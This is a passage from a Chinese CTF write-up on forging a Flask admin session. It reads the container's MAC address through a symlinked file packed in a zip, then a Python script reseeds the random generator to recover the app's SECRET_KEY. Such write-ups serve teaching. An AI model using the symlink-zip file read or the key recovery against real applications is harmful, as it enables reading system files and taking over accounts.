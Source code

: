 ```python


if __name__ == '__main__':
    #app.run(debug=True)
    app.run(host='0.0.0.0', debug=True, port=10008)

```

### 伪随机数种子

有了源码，我们就需要根据源码伪造admin的session，而session构造需要SECRET_KEY，看源码，SECRET_KEY等于一个随机数，但是这个随机数是通过设置随机数种子生成的。而如果我们知道这个种子，就知道了后面生成的随机数

```
random.seed(uuid.getnode())
app = Flask(__name__)
app.config['SECRET_KEY'] = str(random.random()*100)

```

我们看一下生成伪随机数种子的函数uuid.getnode()

#### 关于uuid.getnode()

源链接：[Python——uuid](https://www.cnblogs.com/Security-Darren/p/4252868.html)

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/f0b897e36ebc7b6128b0637537a3b874.png)



#### 获取mac地址

我们想得到种子，就得知道容器的mac地址

我们尝试读取`/sys/class/net/eth0/address`来得到mac地址

```
ln -s /sys/class/net/eth0/address mac
zip -y mac.zip mac

```

![image-20241119164230093](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411191642158.png)

得到mac地址 **ae:34:53:c6:20:88**

#### 由mac地址得到伪随机数种子

```python
import uuid
import random

mac = "ae:34:53:c6:20:88"
temp = mac.split(':')
temp = [int(i,16) for i in temp]
temp = [bin(i).replace('0b','').zfill(8) for i in temp]
temp = ''.join(temp)
mac = int(temp,2)
print(mac)#将mac转为十进制

random.seed(mac)
print(random.random()*100)#由转化后的mac得到伪随机数种子 SECRET_KEY

---------- python3.8 ----------
191539767025800
46.189843351464276

输出完成 (耗时 0 秒) - 正常终止
```